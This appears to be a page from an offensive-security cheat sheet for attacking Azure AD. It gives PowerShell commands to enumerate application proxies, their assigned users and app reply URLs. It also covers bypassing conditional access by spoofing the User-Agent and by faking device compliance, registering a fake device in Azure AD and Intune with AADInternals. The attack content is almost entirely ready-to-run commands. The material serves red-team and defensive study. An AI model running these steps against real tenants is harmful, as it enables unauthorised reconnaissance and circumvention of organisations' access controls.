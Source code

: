 ⧉ Copied!

## Application Proxy

```powershell
# Enumerate application that have Proxy
PS C:\Tools> Get-AzureADApplication -All $true | %{try{GetAzureADApplicationProxyApplication -ObjectId $_.ObjectID;$_.DisplayName;$_.ObjectID}catch{}}
PS C:\Tools> Get-AzureADServicePrincipal -All $true | ?{$_.DisplayName -eq "Finance Management System"}
PS C:\Tools> . C:\Tools\GetApplicationProxyAssignedUsersAndGroups.ps1
PS C:\Tools> Get-ApplicationProxyAssignedUsersAndGroups -ObjectId <OBJECT-ID>
```

⧉ Copied!

## Application Endpoint

```powershell
# Enumerate possible endpoints for applications starting/ending with PREFIX
PS C:\Tools> Get-AzureADServicePrincipal -All $true -Filter "startswith(displayName,'PREFIX')" | % {$_.ReplyUrls}
PS C:\Tools> Get-AzureADApplication -All $true -Filter "endswith(displayName,'PREFIX')" | Select-Object ReplyUrls,WwwHomePage,HomePage
```

⧉ Copied!

## Conditional Access

- Bypassing conditional access by copying User-Agent (Chrome Dev Tool > Select iPad Pro, etc)
- Bypassing conditional access by faking device compliance
    
    ```powershell
    # AAD Internals - Making your device compliant
    # Get an access token for AAD join and save to cache
    Get-AADIntAccessTokenForAADJoin -SaveToCache
    # Join the device to Azure AD
    Join-AADIntDeviceToAzureAD -DeviceName "SixByFour" -DeviceType "Commodore" -OSVersion "C64"
    # Marking device compliant - option 1: Registering device to Intune
    # Get an access token for Intune MDM and save to cache (prompts for credentials)
    Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -SaveToCache 
    # Join the device to Intune
    Join-AADIntDeviceToIntune -DeviceName "SixByFour"
    # Start the call back
    Start-AADIntDeviceIntuneCallback -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7-MDM.pfx -DeviceName "SixByFour"
    ```
    